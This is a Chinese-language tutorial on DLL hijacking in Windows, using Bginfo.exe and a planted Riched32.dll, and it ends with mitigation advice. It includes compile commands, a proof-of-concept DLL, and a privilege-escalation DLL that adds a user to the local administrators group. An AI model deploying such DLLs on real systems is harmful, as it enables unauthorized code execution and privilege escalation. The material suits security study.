










\newpage
\subsection{Windows 中的 DLL 劫持：简单的 C 示例}

﷽

{width="75%"}

什么是 DLL 劫持？DLL 劫持是一种技术：我们诱骗一个合法/受信任的应用程序去加载我们的恶意 DLL。

在 Windows 环境中，当应用程序或服务启动时，它会按顺序查找一系列 DLL 才能正常工作。下图展示了 Windows 中默认的 DLL 搜索顺序：

{width="75%"}

在本文中，我们只讨论最简单的情况：应用程序所在目录可写。在这种情况下，应用程序加载的任何 DLL 都可以被劫持，因为它是搜索过程中的第一个位置。

### 第 1 步：查找缺失 DLL 的进程

查找系统中缺失 DLL 最常见的方法是运行 Sysinternals 的 procmon，并设置以下过滤器：

{width="75%"}

这样可以识别出应用程序尝试加载的 DLL，以及应用程序查找缺失 DLL 的实际路径：

{width="75%"}

在我们的示例中，Bginfo.exe 进程缺失若干 DLL，这些 DLL 可能被用于 DLL 劫持。例如 Riched32.dll。

### 第 2 步：检查文件夹权限

我们来检查文件夹权限：

```cmd
icacls C:\Users\user\Desktop\
```

{width="75%"}

根据文档说明，我们对这个文件夹有写权限。

### 第 3 步：DLL 劫持

首先，我们来运行 bginfo.exe：

{width="75%"}

因此，如果我在与 bginfo.exe 相同的目录中放置一个名为 Riched32.dll 的 DLL，那么当该工具执行时，我的恶意代码也会被执行。为简单起见，我创建一个只会弹出消息框的 DLL：

```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call)  {
  case DLL_PROCESS_ATTACH:
  MessageBox(
  NULL,
  "Meow-meow!",
  "=^..^=",
  MB_OK
  );
  break;
  case DLL_PROCESS_DETACH:
  break;
  case DLL_THREAD_ATTACH:
  break;
  case DLL_THREAD_DETACH:
  break;
  }
  return TRUE;

```

现在我们可以编译它（在攻击者机器上）：

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

{width="75%"}

然后把它重命名为 Riched32.dll，并复制到 C:\Users\user\Desktop\{}，也就是我的恶意 DLL 所在位置。

{width="75%"}

现在启动 bginfo.exe：

{width="75%"}

{width="75%"}

如你所见，我们的恶意逻辑被执行了：

所以，bginfo.exe 和恶意的 Riched32.dll 在同一个文件夹中（1），然后启动 bginfo.exe（2），消息框就弹出来了！（3）

### 修复措施

也许最简单的修复步骤就是确保所有已安装的软件都放在受保护的目录 `C:\\Program Files` 或 `C:\\Program Files (x86)` 中。如果软件无法安装到这些位置，那么次简单的做法是确保只有管理员用户对安装目录拥有「创建」或「写入」权限，以防止攻击者部署恶意 DLL，从而破坏利用。

### 权限提升

DLL 劫持不仅仅可以用来执行代码。它还可以用来获得持久化和权限提升：

找到一个以其他权限运行/将要运行的进程（横向移动），且该进程缺失某个 DLL。

对 DLL 将要被搜索的任何文件夹拥有写权限（可能是可执行文件所在目录，或系统路径中的某个文件夹）。

```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call)  {
  case DLL_PROCESS_ATTACH:
  system("cmd.exe /k net localgroup administrators user /add");
  break;
  case DLL_PROCESS_DETACH:
  break;
  case DLL_THREAD_ATTACH:
  break;
  case DLL_THREAD_DETACH:
  break;
  }
  return TRUE;

```

然后替换我们的代码：

x64 编译命令：`x86_64-w64-mingw32-gcc evil.c -shared -o target.dll`

x86 编译命令：`i686-w64-mingw32-gcc evil.c -shared -o target.dll`

后续所有步骤都类似。

### 结论

但在所有情况下，都有一个注意事项。

请注意，某些情况下你编译的 DLL 必须导出多个函数才能被受害者进程加载。如果这些函数不存在，二进制文件将无法加载它们，利用就会失败。

因此，编译现有 DLL 的自定义版本比听起来更具挑战性，因为如果缺少过程或入口点，很多可执行文件将不会加载这样的 DLL。可以使用 DLL Export Viewer 等工具枚举合法 DLL 的所有外部函数名和序号。确保我们编译的 DLL 遵循相同的格式，将最大限度地提高其成功加载的几率。

将来我会尝试弄清楚这一点，并尝试编写一个 Python 脚本，从目标原始 DLL 生成 .def 文件。

我已在 GitHub 上添加了存在漏洞的 bginfo（4.16 版），如果你想做实验可以下载。
